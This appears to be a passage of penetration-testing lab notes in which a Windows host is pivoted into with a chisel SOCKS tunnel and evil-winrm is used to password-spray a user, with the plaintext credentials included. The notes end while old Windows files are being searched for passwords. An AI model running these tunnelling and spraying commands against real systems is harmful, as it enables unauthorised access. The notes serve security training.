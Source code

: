 Run the client on the windows after installing it
```
chisel.exe client 192.168.45.174:4445 R:socks
```

Tunnel Created. Now to configure proxychains for the default port of Chisel which is 1060 
```ini
socks5 127.0.0.1 1080
```

Now to password spray via evil-winrm

Install if not present on system
```sh
sudo gem install evil-winrm
```


Now to connect to MS02

## 10.10.128.142 - MS02
Challenge 4 - MS02 OS Credentials:
Target: 
```ini
192.168.214.145
```

Password Spray manually as it's less than 5 to MS02 from users and passwords obtained from MS01

```
proxychains evil-winrm -i 10.10.128.142 -u celia.almeda -p 7k8XHk3dMtmpnC7
```

```
proxychains evil-winrm -i 10.10.128.142 -u celia.almeda -p 69jHwjGN2bPQFvJ
```

The first password works: `7k8XHk3dMtmpnC7`

```cmd
whoami
```
	oscp\celia.almeda

```
whoami /all
```
	No SeImpersination

Now to check for old windows
```
cd ..\..\..\..\
```

At root we see `windows.old`

```
cd windows.old
```

Now check for old passwords through manual enumeration since it's not the active windows system
```
cd C:\windows.old\Windows\System32>
```
